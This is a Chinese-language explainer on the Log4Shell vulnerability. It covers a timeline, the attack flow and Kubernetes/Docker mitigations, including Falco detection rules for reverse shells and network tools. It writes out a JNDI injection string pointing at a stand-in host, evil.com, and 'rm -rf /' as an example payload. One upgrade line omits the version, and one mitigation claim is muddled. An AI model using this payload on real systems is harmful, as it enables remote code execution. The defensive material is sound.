# Log4Shell

## Log4J 漏洞事件回顾

2021年12月10日，Apache Java模块Log4j库第一个远程代码执行漏洞被公开披露，该漏洞识别为CVE-2021-44228。此外，还陆续披露了漏洞 CVE-2021-45046和CVE-2021-45105。



这并非危言耸听，Apache log4j是一款基于Java的日志框架，被大量的用于 Java 应用程序当中。Log4j可能会成为现代网络安全史上最严重的漏洞，至少是近十年来我们面临的最严重的漏洞。一旦漏洞被利用遭到入侵，将令企业陷入困境。鉴于 CVE-2021-44228 的普遍性以及容易被利用，并且随着新版本漏洞的出现，以及攻击者不断创新和适应，Log4j 中的远程代码执行漏洞并不能在短时间内被全部修复，可能需要数月甚至数年时间才能得到妥善解决。我们必须为“与漏洞共存”这个漫长的过程做好所有的准备。


## Log4j漏洞事件时间线

### 更新：2021年12月14日

- 更新了一个攻击字符串的示例。
- 明确指出了易受攻击的平台本身不一定是面向互联网的。任何提供log4j路径的远程访问界面都可以作为向量被漏洞利用。


### 更新：2021年12月15日

- 建议升级到2.16版本以减轻威胁。
- 强调log4j是一个库，因此我们无法通过"已安装"软件列表来100%确认。
- 明确指出如果漏洞利用成功，JDNI字符串实际上不会被日志记录（因其是由Log4j日志来解译的）。

- 网络应用程序防火墙（WAF）可提供合理的保护，防止大多数已知的攻击。
- 报告了Khonsari，这是一种新的、简单的勒索软件毒株，被认为是在Log4j攻击后进行部署的。


### 更新：2021年12月16日

- 报告了荷兰政府CERT名单上已经有超过300个产品被报告存在漏洞，且接下来一周之后可能会达到500个。


### 更新：2021年12月17日

- 首次提及Conti勒索软件运营商通过Log4j漏洞获得访问权。


- Log4j漏洞解决方案：考虑删除 JndiLookup 类。
- Apache Log4j正式发布Apache Log4j 2.17.0，该版本重点解决当前曝光的三个漏洞，分别是安全漏洞CVE-2021-45105、安全漏洞CVE-2021-45046、安全漏洞CVE-2021-44228。


> 针对 Log4j 的攻击依然在继续。

### 更新：2021年12月23日

- 一个勒索软件攻击者和一个银行木马被现有漏洞利用的新闻。


- 报告了比利时国防部被攻击的新闻。


- 更新了中国工业和信息化部（MIIT）对阿里云进行制裁的消息，原因是该公司在没有按照相关法律要求及时向中国相关部门报告其率先发现Apache Log4j2组件存在安全漏洞。


### 更新：2022年1月20日

- 更新了来自NHS Direct的警报，报告了对VMware Horizon的攻击。


## Log4Shell 攻击方式



**攻击方式：**

1. 通过向log4j注入恶意的 JNDI LDAP 地址，例如：`${jndi:ldap://evil.com:9999/Evil}`。
2. Java’s JNDI 向恶意的服务器发起 LDAP 请求。
3. 恶意的 LDAP 服务器返回另一个恶意的地址，此地址包含了一个恶意的可执行的 Java 类，例如：`https://evil.com:8000/Evil.class`

4. 请求 `https://evil.com:8000/Evil.class` 下载此 Java 类，就像我们从浏览器下载图片一样。
5. 此 Java 类被下载到本地后，会被反序列化从而执行恶意代码。
6. 例如恶意代码：`rm -rf /`

> 参考资料：
>
> https://snyk.io/blog/log4shell-in-a-nutshell/


## 针对Log4j漏洞需要做什么

将 log4j 的版本升级到2.17.0版本，以缓解所有已识别的威胁。

那在 2.17.0 版本发布之前，我们还能做些什么？


## 在 2.17.0 版本发布之前，我们还能做些什么？

根据攻击的方式，我们或许可以尝试以下方式：

1. 禁用 Log4j 的 lookup 功能。

   ```sh
   java ‐Dlog4j2.formatMsgNoLookups=True -jar vulnerable.jar
   ```

2. 移除 JndiLookup.class，重新编译 jar 包。

> 参考资料：
>
> https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/


## 从 Kubernetes 的角度，如何缓解 Log4Shell

防火墙（Web Application Firewalls ）是最传统且有效的缓解方法，我们可以通过禁用已知的恶意 JNDI 字符串来缓解 Log4Shell 漏洞。

除此之外，我们还有以下方式：

### 镜像扫描

通过镜像扫描确认哪些镜像是存在 Log4Shell 漏洞的，确认漏洞的影响面，随后对其做出必要的安全措施。



### NetworkPolicy 网络隔离

我们可以使用 NetworkPolicy 限制一个 Pod 的出站以及入站请求（in and outside of your cluster）。且 Log4Shell 的攻击方式也要求其访问外部的恶意网站，所以我们可以通过限制 Pod 访问外网或者特定网站的方式来缓解 Log4Shell 漏洞。

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: default-deny-egress
  namespace: log4j
spec:
  podSelector: {}
  policyTypes:
  - Egress
```


### 运行时检测

我们可以使用像 Falco 这样的运行时检测工具，检测生成环境中，检测 Pod 运行时发生的攻击。
让我们假设攻击者利用 Log4Shell 漏洞并想要在 Pod 上打开一个 Reverse shell。

> Reverse shell：
>
> Also known as a remote shell or “connect-back shell,” takes advantage of the target system’s vulnerabilities to initiate a shell session and then access the victim’s computer. 
>
> 


在这种情况下，Falco 运行时策略将检测到此恶意行为并发出安全警报。
下面是一个防范 Reverse shell 的 Falco 规则示例。为避免误报，我们可以在条件（condition）中添加例外以更好地适应我们的环境。

```properties
- rule: Reverse shell
  desc: Detect reverse shell established remote connection
  condition: evt.type=dup and container and fd.num in (0, 1, 2) and fd.type in ("ipv4", "ipv6")
  output: >
    Reverse shell connection (user=%user.name %container.info process=%proc.name parent=%proc.pname cmdline=%proc.cmdline terminal=%proc.tty container_id=%container.id image=%container.image.repository fd.name=%fd.name fd.num=%fd.num fd.type=%fd.type fd.sip=%fd.sip)
  priority: WARNING
  tags: [container, shell, mitre_execution]
  append: false
```

除了上面展示的 Falco 规则之外，Falco 还有许多 “开箱即用” 的规则。例如攻击者可能会试图使用网络工具下载文件或者打开新的 Shell 连接，这些操作都会被 Falcon 侦测到，并发出警报。

```properties
- rule: Run shell untrusted
  desc: an attempt to spawn a shell below a non-shell application. Specific applications are monitored.
  condition: >
    spawned_process
    and shell_procs
    and proc.pname exists
    and protected_shell_spawner
    and not proc.pname in (shell_binaries, gitlab_binaries, cron_binaries, user_known_shell_spawn_binaries,
                           needrestart_binaries,
                           mesos_shell_binaries,
                           erl_child_setup, exechealthz,
                           PM2, PassengerWatchd, c_rehash, svlogd, logrotate, hhvm, serf,
                           lb-controller, nvidia-installe, runsv, statsite, erlexec, calico-node,
                           "puma reactor")
    and not proc.cmdline in (known_shell_spawn_cmdlines)
    and not proc.aname in (unicorn_launche)
    and not consul_running_net_scripts
    and not consul_running_alert_checks
    and not nginx_starting_nginx
    and not nginx_running_aws_s3_cp
    and not run_by_package_mgmt_binaries
    and not serf_script
    and not check_process_status
    and not run_by_foreman
    and not python_mesos_marathon_scripting
    and not splunk_running_forwarder
    and not postgres_running_wal_e
    and not redis_running_prepost_scripts
    and not rabbitmq_running_scripts
    and not rabbitmqctl_running_scripts
    and not run_by_appdynamics
    and not user_shell_container_exclusions
  output: >
    Shell spawned by untrusted binary (user=%user.name user_loginuid=%user.loginuid shell=%proc.name parent=%proc.pname
    cmdline=%proc.cmdline pcmdline=%proc.pcmdline gparent=%proc.aname[2] ggparent=%proc.aname[3]
    aname[4]=%proc.aname[4] aname[5]=%proc.aname[5] aname[6]=%proc.aname[6] aname[7]=%proc.aname[7] container_id=%container.id image=%container.image.repository)
  priority: DEBUG
  tags: [shell, mitre_execution]
```

```properties
- rule: Launch Suspicious Network Tool in Container
  desc: Detect network tools launched inside container
  condition: >
    spawned_process and container and network_tool_procs and not user_known_network_tool_activities
  output: >
    Network tool launched in container (user=%user.name user_loginuid=%user.loginuid command=%proc.cmdline parent_process=%proc.pname
    container_id=%container.id container_name=%container.name image=%container.image.repository:%container.image.tag)
  priority: NOTICE
  tags: [network, process, mitre_discovery, mitre_exfiltration]
- rule: Launch Remote File Copy Tools in Container
  desc: Detect remote file copy tools launched in container
  condition: >
    spawned_process
    and container
    and remote_file_copy_procs
    and not user_known_remote_file_copy_activities
  output: >
    Remote file copy tool launched in container (user=%user.name user_loginuid=%user.loginuid command=%proc.cmdline parent_process=%proc.pname
    container_id=%container.id container_name=%container.name image=%container.image.repository:%container.image.tag)
  priority: NOTICE
  tags: [network, process, mitre_lateral_movement, mitre_exfiltration]
```


### Log4Shell 缓解备忘录 / Docker + Snyk Log4Shell Remediation Cheat Sheet

除了上面列出的，缓解 Log4Shell 漏洞的方法外，在平时的开发工作中，我们也可以参照下图，进一步提高容器的安全性。

  

#### 1. Scan your container images

扫描容器镜像，这个不用多说，我们刚刚也提到了。




#### 2. Use an official and current JDK in your image

对于 JDK 版本，我们有很多选择，也有很多的 JDK 变种，或者某些公司根据自己的业务需要自定义的 JDK 版本（阿里巴巴）。但我们需要知道，如果我们自己对 JDK 进行了自定义修改，那么意味着额外的工作量和责任，因此我们建议使用官方版本，同时保持 JDK 版本更新来修复最新发现的漏洞。 

使用最新的 JDK 版本意味着一些已知的安全漏洞总是被修复，同时也建议使用主流版本的 JDK。



#### 3. Upgrading your JDK isn’t enough

如果针对 Log4Shell 漏洞，更新 JDK 版本并不能做到防止攻击。但至少我们可以通过一些 JDK 配置来缓解攻击。例如，将 ``com.sun.jndi.ldap.object.trustURLCodebase` 设置为 `false` 来缓解攻击。


#### 4. Identify scanned images in Docker Hub

Docker 公司和 Snyk 公司合作，让更多的人可以发现容器是否存在 Log4Shell 漏洞。

所有保存在 Docker Hub中的容器将被扫描，如果发现 Log4Shell 漏洞，将直接在 UI 界面显示。

*没有发现 Log4Shell 漏洞*




*发现了多个漏洞*



#### 5. Use Docker Desktop 4.3.1+ with `docker scan` 0.11.0+

尽可能的使用最新版，稳定版软件。




#### 6. Don’t run as root

切记，默认情况下，容器是以 root 权限启动的。我们不应该这样做，我们应该创建一个普通用户，以普通用户启动容器，限制容器可获得的权限。

```dockerfile
RUN addgroup ... \
    adduser ... \
    chmod and chown
USER
```


#### 7. Use a read-only root filesystem

使用只读文件系统，这个简单的改动，可能会为应用程序带来非常大的好处。应用程序只被允许往特定的文件夹写入文件，而将其他的文件夹都设置为只读。当我们把一些重要的文件夹设置为只读后，攻击者就无法在此文件夹下创建临时文件或者下载脚本执行脚本了，大大减少了攻击者的可攻击面。




#### 8. Upgrade your Log4j version the latest version

将 Log4j 更新到 log 或者更高版本来修复漏洞。




#### 9. Don’t run containers in privileged mode

开发团队有时会以特权模式运行容器，为了做实验，或者测试某些新想法，在对容器进行故障排除时，我们往往会以特权模式运行容器，方便我们排查问题。容器在特权模式下，将会授予 root 权限和能力。

一般建议，如果我们真的认为容器需要以特权模式运行，建议使用 `capabilities` 限制容器的权限和能力。

> 一般而言，大多数应用程序，容器并不真正需要提升的权限。就我们公司而言，我们所有的容器，没有一个是按特权模式启动的。



#### 10. Minimize your container’s footprint

当我们使用一个轻量级的容器时，这给我们一种感觉，就像我们对资源的高效利用达到了极致，没有任何的资源浪费，这种思路是对的。

如果我们的应用程序不需要 curl 或 wget，那就不应该在容器中安装他们（默认就有，那就删掉他们）。

因为攻击者往往会使用 curl 或 wget 从远端服务下载恶意脚本到容器中执行，如果我们的容器没有 curl 或者 wget，那么攻击者就无法下载恶意脚本，从而进行下一步攻击，保护了容器安全。

Log4Shell 漏洞就可能会利用 Reverse shell 从远端下载恶意的 Java 代码片段，如果我们没有 curl 或 wget 就可以防止 Reverse shell 下载恶意的 Java 代码片段。


> 参考资料：
>
> https://sysdig.com/blog/mitigating-log4j-kubernetes-network-policies/
>
> https://sysdig.com/blog/exploit-detect-mitigate-log4j-cve/
>
> https://www.imperva.com/learn/application-security/reverse-shell/
>
> https://andreafortuna.org/2018/02/05/some-thoughts-about-reverse-shells/
>
> https://www.docker.com/blog/10-tips-for-keeping-your-docker-containers-safe-from-log4shell/
>
> https://www.wdbyte.com/java/log4j-poc.html